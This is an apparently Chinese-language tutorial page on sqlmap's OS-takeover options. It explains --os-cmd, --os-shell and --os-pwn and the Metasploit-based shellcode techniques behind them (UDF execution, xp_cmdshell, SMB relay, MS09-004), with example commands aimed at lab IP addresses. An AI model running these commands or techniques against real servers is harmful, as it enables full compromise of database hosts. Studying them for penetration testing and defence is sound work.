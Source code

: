 

# 接管操作系统

> **要求的数据类型:** 这是**前提!!!!!!!!!!!**
>
>  **MySQL，PostgreSQL 或  Microsoft SQL Server**

## --os-cmd 和 --os-shell

> 给控制的操作系统进行一些终端操作的, 相当于与后渗透. 
>
> sqlmap支持的后门类型:
>
> - ASP
> - ASP.NET
> - JSP
> - PHP

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1
```



## 外带到其他工具

> sqlmap能够通过建立 **TCP连接** ,是允许有外带的. 可以外带到 **交互命令行, Meterper 会话 或者 VNC会话**

```
--os-pwn
--os-smbrelay
--os-bog
--priv-esc
--msf-path
--tmp-path
```

[点击进入: 参考1](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)

[点击进入: 参考2](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database)

```
# 网上的例子:
通过 sqlmap 的用户自定义函数 sys_bineval() 在数据库内存中执行 Metasploit shellcode。MySQL 和 PostgreSQL 支持该技术，通过开关 --os-pwn 启用。
通过 sqlmap 的用户自定义函数 sys_exec() 向 MySQL 和 PostgreSQL 上传一个 Metasploit 独立 payload 传输器并执行，对于 Microsoft SQL Server 则是使用 xp_cmdshell() 函数，通过开关 --os-pwn 启用。
通过进行从数据库服务器到攻击者机器（由 Metasploit smb_relay 服务监听）之间的 UNC 路径请求的 SMB 反射攻击（MS08-068）来执行 Metasploit shellcode。当 sqlmap 运行于具有高权限（uid=0）的 Linux/Unix 上，且目标 DBMS 以 Windows 管理员身份运行时支持该技术，通过开关 --os-smbrelay 启用。
通过利用 Microsoft SQL Server 2000 和 2005 的 sp_replwritetovarbin 存储过程堆缓冲区溢出（MS09-004）在数据库内存中执行 Metasploit shellcode。sqlmap 使用自己的 exploit，自动绕过 DEP 内存保护来触发漏洞，但它依赖 Metasploit 生成 shellcode，以便在成功利用时执行，通过开关 --os-bof 启用。

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit
```
